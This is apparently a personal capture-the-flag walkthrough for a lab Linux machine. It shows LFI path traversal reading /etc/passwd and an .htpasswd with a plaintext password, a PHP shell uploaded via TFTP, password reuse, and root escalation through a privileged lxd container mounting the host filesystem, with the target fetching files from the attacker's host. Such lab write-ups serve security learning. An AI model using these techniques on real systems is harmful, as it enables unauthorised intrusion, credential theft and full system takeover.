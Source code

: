 public:: true
tags:: lxc, apache, htaccess, htpasswd, tftp

- Open ports
	- TCP
	  
	  ```
	  80/tcp open  http
	  ```
	- UDP
	  id:: 655238b7-09f8-454b-ba4a-40a2d4b29455
	  
	  ```
	  68/udp open|filtered dhcpc
	  69/udp open|filtered tftp
	  ```
- Findings
	- LFI at `http://10.129.38.202/?file=`
	  id:: 655238e3-68b6-42e6-9ec4-6edf9f86c35e
	- OS usernames
	  *Fetched from `http://10.129.38.202/?file=../../../../../../../../etc/passwd`*
	  ```
	  # Only list the most interesting ones
	  root
	  [...]
	  backup
	  mike
	  tftp
	  [...]
	  ```
	- CANCELED Tested RFI but didn't work
	- Try to use `gobuster` to search for known dotfiles in `/home/mike`
	  *Used this dotfiles oriented [wordlist](https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/dotfiles.txt)*.
	  ```bash
	  > gobuster fuzz -u "http://10.129.38.202/?file=../../../../../../../../home/mike/FUZZ" -w wordlist-dotfiles.txt --exclude-length 0
	  [...]
	  Found: [Status=200] [Length=15] [Word=.bash_profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_profile
	  Found: [Status=200] [Length=220] [Word=.bash_logout] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_logout
	  Found: [Status=200] [Length=3771] [Word=.bashrc] http://10.129.38.202/?file=../../../../../../../../home/mike/.bashrc
	  Found: [Status=200] [Length=807] [Word=.profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.profile
	  ```
	  No interesting files found.
	- Found an interesting `.htpasswd` file
	  id:: 65523a47-5070-40a1-af56-9b48b9b351b4
	  
	  ```bash
	  > curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
	  ===TODO===: Search for a wordlist optimized for webservers file and use it with `gobuster`.
	  #+BEGIN_CAUTION
	  mike:Sheffield19
	  #+END_CAUTION
	  
	  #+BEGIN_TIP
	  I now have the username and password coming from a `.htpasswd` file. Maybe `mike` reuse the same password for his OS user.
	  #+END_TIP
	- I can upload files via [TFTP](logseq://graph/HTB-Notes?block-id=655238b7-09f8-454b-ba4a-40a2d4b29455) and execute php file via the [LFI](logseq://graph/HTB-Notes?block-id=655238e3-68b6-42e6-9ec4-6edf9f86c35e).
		- Upload a php shell via TFTP.
		- Execute the php shell with the LFI.
		- ```bash
		  > id
		  uid=33(www-data) gid=33(www-data) groups=33(www-data)
		  > www-data@included:/$ su mike
		  Password: Sheffield19
		  > id
		  uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
		  ```
	- **User flag** at `/home/mike/user.txt`
		- a56ef91d70cfbf2cdb8f454c006935a1
		  background-color:: green
- ### Privesc
	- The user `mike` is part of the group `lxc(108)`. We can upload an lxc container image to the target machine and start a privileged container to escalate privileges.
		- Prepare the container image in Kali
		  *Download the unified (incus.tar.xz and rootfs.tar.xz) lxc image for alpine from [here](https://images.linuxcontainers.org/images/)*
		  ```bash
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/incus.tar.xz" -o incus.tar.xz
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/rootfs.tar.xz" -o rootfs.tar.xz
		  ```
		- Spawn a webserver to later upload those files to the victim machine
		- Import the alpine container image to the target machine
		  *From the target machine*
		  ```bash
		  # Fetch the alpine image
		  curl "http://10.10.14.147:8000/alpine.tar.xz" -o alpine.tar.xz
		  curl "http://10.10.14.147:8000/rootfs.tar.xz" -o rootfs.tar.xz
		  # Import it
		  lxc image import incus.tar.xz rootfs.tar.xz --alias alpine
		  # Check if it got imported
		  mike@included:~$ lxc image ls
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION                |  ARCH  |  SIZE  |         UPLOAD DATE          |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | alpine | 9bea64510930 | no     | Alpinelinux 3.15 x86_64 (20231107_13:00) | x86_64 | 2.45MB | Nov 12, 2023 at 5:22pm (UTC) |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  ```
		- Start a privileged container
		  
		  ```bash
		  lxc init alpine privesc -c security.privileged=true
		  lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
		  lxc start privesc
		  ```
		- Access the container and all its loots
		  ```bash
		  lxc exec privesc /bin/sh
		  ```
	- **Root flag** at `/root/root.txt`
		- c693d9c7499d9f572ee375d4c14c7bcf
		  background-color:: green